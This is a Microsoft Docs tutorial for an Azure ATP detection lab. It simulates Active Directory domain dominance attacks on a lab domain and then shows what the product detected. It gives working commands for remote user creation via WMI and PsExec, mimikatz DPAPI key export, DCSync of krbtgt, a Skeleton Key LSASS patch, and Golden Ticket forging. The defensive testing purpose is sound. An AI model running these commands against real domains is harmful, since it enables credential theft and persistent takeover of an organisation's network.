---
# required metadata

title: Azure ATP Domain Dominance Playbook | Microsoft Docs
description: The Azure ATP domain dominance playbook describes how to simulate domain dominance attacks for detection by Azure ATP
ms.service: azure-advanced-threat-protection
ms.topic: tutorial
author: mlottner
ms.author: mlottner
ms.date: 02/07/2019

# optional metadata

# ms.custom
 ms.reviewer: itargoet
# ms.subservice
# ROBOTS
# Customer intent: As an Azure ATP user, I want to simulate domain dominance threats in a lab so I can see some of Azure ATP's capabilities.
---

# # Tutorial: Domain dominance playbook

The last tutorial in this four part series for Azure ATP security alerts is a domain dominance playbook. The purpose of the Azure ATP security alert lab is to illustrate **Azure ATP**'s capabilities in identifying and detecting potential attacks against your network. The lab explains how to test against some of Azure ATP's *discrete* detections using Azure ATP’s *signature*-based capabilities. The tutorials do not include Azure ATP advanced machine-learning, user, or entity based behavioral detections and alerts. Those types of detections and alerts are not included in testing because they require a learning period, and real network traffic for up to 30 days. For more information about each tutorial in this series, see the [ATP security alert lab overview](atp-playbook-lab-overview.md).

This playbook explains the process of using real-world, publicly available hacking and attack tools against the domain dominance threat detections and security alerts services of Azure ATP. The methods covered are typically used at this point in the cyber-attack kill chain to achieve persistent domain dominance. 

In this tutorial you will use the following methods to achieve persistent domain dominance: 

> [!div class="checklist"]
* [Remote Code Execution](#remote-code-execution)
* [Data Protection API (DPAPI)](#data-protection-api-dpapi)
* [Malicious Replication](#malicious-replication)
* [Service Creation](#skeleton-key)
* [Skeleton Key](#skeleton-key)
* [Golden Ticket](#golden-ticket)

## Prerequisites

1. [A completed ATP security alert lab](atp-playbook-setup-lab.md) 
     - We recommend following the lab setup instructions as closely as possible. The closer your lab is to the suggested lab setup, the easier it will be to follow the Azure ATP testing procedures.

2. [Completion of the lateral movement playbook tutorial](atp-playbook-lateral-movement.md)

## Domain Dominance

In the cyber-attack kill chain, during the phase of domain dominance, an attacker has already gained legitimate credentials to access your domain controller. Attacker access to your domain controller means all levels of damage to your network can be accomplished. However, in addition to immediate damage, attackers, especially sophisticated ones, like to place additional *insurance policies* into environments they've compromised. These attacks ensure that even if an attacker's initial compromise and actions are discovered, they'll still have additional avenues of persistence in your domain, increasing their chances of long-term success.

### Remote Code Execution

Remote code execution is exactly what it sounds like. Attackers establish a way to remotely execute code against a resource, in this case, against a domain controller. We'll try using these tools together to perform remote code execution and gain domain controller persistency:

- Windows Management Instrumentation (WMI)
- PsExec from SysInternals

Using WMI via the command line, try to create a process locally on the domain controller to create a user named "InsertedUser", with a password of: pa$$w0rd1.

1. Open the Command Line, running in context of *SamiraA* from the **VictimPC**, execute the following:

   ``` cmd
   wmic /node:ContosoDC process call create "net user /add InsertedUser pa$$w0rd1"
   ```

2. Now with the user created, add the user to the "Administrators" group on the domain controller:

   ``` cmd
   PsExec.exe \\ContosoDC -accepteula net localgroup "Administrators" InsertedUser /add
   ```

   

3. Go to **Active Directory Users and Computers (ADUC)** on **ContosoDC** and find the **InsertedUser**. 

4. Right click on **Properties** and check membership.

   

As the attacker, you've successfully created a new user by using WMI. You've also added the new user to the Administrators group by using PsExec. From a persistence perspective, another legitimate, independent credential was created on the domain controller. The new credential gives the attacker persistent access to the domain controller in case the previous credential access gained was discovered and removed.

### Remote Code Execution Detection in Azure ATP

Log in to the Azure ATP portal to check what, if anything, Azure ATP detected from our last attack: 



Azure ATP detected both the WMI and PsExec remote code executions.

Due to encryption on the WMI session, certain values such as the actual WMI methods or the result of the attack are not visible. However, Azure ATP's detection of these actions give us ideal information to take defensive action with.  

VictimPC, the computer, should never be executing remote code against the Domain Controllers.

As Azure ATP learns who is inserted into which Security Groups over time, suspicious activities like these are identified as anomalous activity in the timeline. Since this lab was recently built and is still within the learning period, this activity won't display as an alert. Security group modification detection by Azure ATP can be validated by checking the activity timeline. Azure ATP also allows you to generate reports on all Security Group modifications which can be emailed to you proactively.

Access the **Administrator** page in the Azure ATP portal using the Search tool. The Azure ATP detection of the user insertion is displayed in the Admin Group activity timeline. 



### Data Protection API (DPAPI)

Data Protection Application Programming Interface (DPAPI) is used by Windows to securely protect passwords saved by browsers, encrypted files, and other sensitive data. Domain controllers hold a master key that can decrypt *all* secrets on domain-joined Windows machines. 

Using **mimikatz**, we'll attempt to export the master key from the domain controller. 

1. Execute the following command against the domain controller:

   ``` cmd
   mimikatz.exe "privilege::debug" "lsadump::backupkeys /system:ContosoDC.contoso.azure /export" "exit"
   ```

   

2. Verify the master key file export occurred by looking in the directory from which you ran mimikatz.exe from and copying the legacy key from the command prompt.

As attackers, we now have the key to decrypt any DPAPI-encrypted file/sensitive data from *any* machine in the entire Forest.

### DPAPI Detection in Azure ATP

Using the Azure ATP portal, let's verify that Azure ATP successfully detected our DPAPI attack:



### Malicious Replication

Malicious replication allows an attacker to replicate user information using Domain Admin (or equivalent) credentials. Malicious replication essentially allows an attacker to remotely harvest a credential. Obviously, the most critical account to attempt to harvest is "krbtgt" as it the master key used to sign all Kerberos tickets.

The two major hacking tool sets that allow attackers to attempt malicious replication are **Mimikatz**, and Core Security’s **Impacket**.

#### Mimikatz lsadump::dcsync

From the **VictimPC**, in context of **SamirA**, execute the following Mimikatz command:

``` cmd
mimikatz.exe "lsadump::dcsync /domain:contoso.azure /user:krbtgt" "exit" >> c:\temp\ContosoDC_krbtgt-export.txt
```

We've just replicated the “krbtgt” account information to: c:\\temp\\ContosoDC_krbtgt-export.txt



#### Malicious Replication Detection in Azure ATP

Using the Azure ATP portal, verify the SOC is now aware of the malicious replication from VictimPC.



### Skeleton Key

Another domain dominance method attackers use is known as **Skeleton Key**. Using a Skeleton Key, the attacker creates, the attacker can masquerade *as any user* at *any time*. In a Skeleton Key attack, every user still has the ability to sign in with their normal password, but each of their accounts is also given a master password. The new master password or Skeleton Key gives anyone who knows it, open access to the account. A Skeleton Key attack is achieved by patching the LSASS.exe process on the domain controller, forcing users to authenticate via a downgraded encryption type.

Let's see exactly how Skeleton Key works:

1. Move **mimikatz** to **ContosoDC** using the **SamirA** credentials we acquired before. Make sure to push the right architecture of **mimikatz.exe** based on the architecture type of the DC (64 bit vs 32-bit). From the **mimikatz** folder, execute:

   ``` cmd
   xcopy mimikatz.exe \\ContosoDC\c$\temp
   ```

2. With **mimikatz** now staged on the DC, remotely execute it via PsExec:

   ``` cmd
   PsExec.exe \\ContosoDC -accepteula cmd /c (cd c:\temp ^& mimikatz.exe "privilege::debug" "misc::skeleton" ^& "exit")
   ```

4. Success! You successfully patched the LSASS process on **ContosoDC**. 

   

### Exploiting the Skeleton Key Patched LSASS

On **VictimPC**, open up a cmd prompt (in the context of **JeffL**), execute the following to try to become context of RonHD

``` cmd
runas /user:ronhd@contoso.azure "notepad"
```

When prompted, use the wrong password (on purpose). This proves that the account *still* has a password after executing the attack.  


But Skeleton Key adds an additional password to each account. Do the "runas" command again but this time use "mimikatz" as the password.

``` cmd
runas /user:ronhd@contoso.azure "notepad"
```

This will create a new process, *notepad*, running in the context of RonHD. **Skeleton Key can be done for _any_ account, including service accounts and computer accounts.**

> [!Important]
> It is important that you restart  ContosoDC after you execute the Skeleton Key attack. Without doing so, the LSASS.exe process on ContosoDC will be patched and modified, downgrading every authentication request to RC4.

### Skeleton Key attack Detection in Azure ATP

What did Azure ATP detect and report while all of this was happening?



Azure ATP successfully detected the suspicious pre-authentication encryption method used for this user.

### Golden Ticket - Existing User

After stealing the “Golden Ticket”, (“krbtgt” account explained [here via Malicious Replication](#Malicious-Replication), an attacker is able to sign tickets *as if they are the domain controller*. **Mimikatz**, the Domain SID, and the stolen "krbtgt" account are all required to accomplish this attack. Not only can we generate tickets for a user, we can generate tickets for users who don't even exist!

1. As JeffL, run the following on VictimPC to acquire the domain SID:

   ``` cmd
   whoami /user
   ```

   

2. Identify and copy the Domain SID highlighted in the above screenshot.

3. Using **mimikatz**, take the copied Domain SID, along with the stolen “krbtgt” user's NTLM hash to generate the TGT. Insert the following into a cmd.exe as JeffV:

   ``` cmd
   mimikatz.exe "privilege::debug" "kerberos::golden /domain:contoso.azure /sid:S-1-5-21-2839646386-741382897-445212193 /krbtgt:c96537e5dca507ee7cfdede66d33103e /user:SamiraA /ticket:c:\temp\GTSamiraA_2018-11-28.kirbi /ptt" "exit"
   ```

   

   The ```/ptt``` part of the command allowed us to immediately pass the generated ticket into memory.

4. Let's make sure the credential is in memory.  Execute ```klist``` in the console.

   

4. Execute the following Pass-the-Ticket command to use it against the DC:

   ``` cmd
   dir \\ContosoDC\c$
   ```

   Success! You generated a **fake** Golden Ticket for SamiraA.

   

Why did it work? The Golden Ticket Attack works because the ticket generated was properly signed with the 'KRBTGT' key we harvested earlier. This allows us, as the attacker, to gain access to ContosoDC, adding ourselves to any Security Group that we wish to leverage.

#### Golden Ticket- Existing User attack detection

Azure ATP uses multiple methods to detect suspected attacks of this type. In this exact scenario, Azure ATP detected the encryption downgrade of the fake ticket.



> [!Important]
>Reminder. As long as the KRBTGT harvested by an attacker remains valid within an environment, the tickets generated with it also remain valid. In this case, the attacker achieves persistent domain dominance until the [KRBTGT is reset, twice](https://docs.microsoft.com/en-us/windows-server/identity/ad-ds/manage/ad-forest-recovery-resetting-the-krbtgt-password).

## Next steps

* [Azure ATP Security Alert Guide](suspicious-activity-guide.md)
* [Investigate lateral movement paths with Azure ATP](use-case-lateral-movement-path.md)
* [Check out the Azure ATP forum!](https://aka.ms/azureatpcommunity)

## Join the Community

Have more questions, or an interest in discussing Azure ATP and related security with others? Join the [Azure ATP Community](https://techcommunity.microsoft.com/t5/Azure-Advanced-Threat-Protection/bd-p/AzureAdvancedThreatProtection) today!